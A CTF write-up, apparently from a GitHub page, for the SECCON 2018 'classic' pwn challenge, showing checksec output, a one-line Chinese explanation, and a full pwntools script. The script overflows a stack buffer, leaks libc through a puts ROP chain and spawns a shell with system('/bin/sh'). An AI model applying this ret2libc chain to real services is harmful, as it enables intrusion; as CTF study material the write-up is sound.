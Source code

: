 ## Pwn

### classic

```
// file
classic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a8a02d460f97f6ff0fb4711f5eb207d4a1b41ed8, not stripped

// checksec
[*] '/tmp/tmp/SECCON2018_online_CTF/Pwn/classic/files/classic'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

最經典的 overflow，先用 ROP 串 leak libc + code reuse 的 gadget，最後再串 `system("/bin/sh")` 的 ROP。

```python
#!/usr/bin/python3                                                    
      
from pwn import *                                                     
      
context.arch = 'amd64'
r = process("./classic")                                              
      
pop_rdi_ret = 0x0000000000400753                                      
puts_got = 0x601018                                                   
puts_plt = 0x400520                                                   
ret = 0x400501                                                        
_main = 0x4006a9                                                      
      
offset = 0x40 + 8                                                     
payload = offset * b'\xff' + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(_main)
      
r.sendlineafter("Local Buffer >> ", payload)                          
r.recvuntil("Have a nice pwn!!\n")                                    
libc = u64(r.recv(6).ljust(8, b'\x00')) - 0x875a0                     
info(f"libc: {hex(libc)}")                                            
_system = libc + 0x55410                                              
binsh = libc + 0x1b75aa                                               
      
payload = offset * b'\xff' + p64(pop_rdi_ret) + p64(binsh) + p64(ret) + p64(_system)
r.sendlineafter("Local Buffer >> ", payload)                                                                                                                             
r.interactive()
```

### Profile
